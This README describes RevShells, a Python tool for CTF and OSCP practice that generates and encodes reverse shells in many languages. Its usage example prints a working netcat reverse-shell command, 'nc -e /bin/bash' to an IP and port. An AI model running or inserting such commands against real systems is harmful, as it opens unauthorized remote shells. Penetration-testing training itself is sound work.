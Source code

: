 # RevShells


RevShell is a Python-based tool that was built to have a variety of shells all in one place. This project was created to be used in CTFs and OSCP in mind. This tools allow users to choose from a list of reverse shells such as bash, netcat, ncat, lua, powershell, ruby, perl, java, and python. RevShells can encode these shells with URL encoding and base64.

## Usage
  `python3 revshells.py -h`  
  will open a help menu, which will show you the needed syntax.

  ex:
      `python3 revshells.py -l or python3 revshells.py --list`  
  will give you a list of the shells that are available at the moment.   
        Once you see a shell you want, use -t or --type and the shell name to invoke it.
  
  `python3 revshells.py -i 1.1.1.1 -p 443 -t bash`  
    output: `nc -e /bin/bash 1.1.1.1 443`

 `--encode or -e` is entirely optional.  
 Your revshell will look like the above output if you do not use it.  
 URL encoding and base64 encoding were kept in mind and have been tested.
  
## Commands
    options:
    -h or --help: Display available commands and their functionalities.
    options:
    -i or --ip: your IP address
    -p or --port: your port 
    -t or --type: Shell type to generate
    -l or --list: List all available shell types
    -a or --all: Generate all shell types
    -e or  --encode: Encode payload (base64 or url) this one is optional.
                        


Installation Instructions

To use the Rev-Shell tool, follow these steps:  
Clone the Repository:

    git clone https://github.com/DelaDirty/RevShells.git  

Navigate to the Directory:

    cd RevShells

Install Dependencies:

    pip install -r requirements.txt


# Disclaimer
This tool is intended for educational and testing purposes only. Misuse of this tool for unauthorized access to systems or networks is strictly prohibited. The developers of this tool are not responsible for any illegal or unethical use of the tool






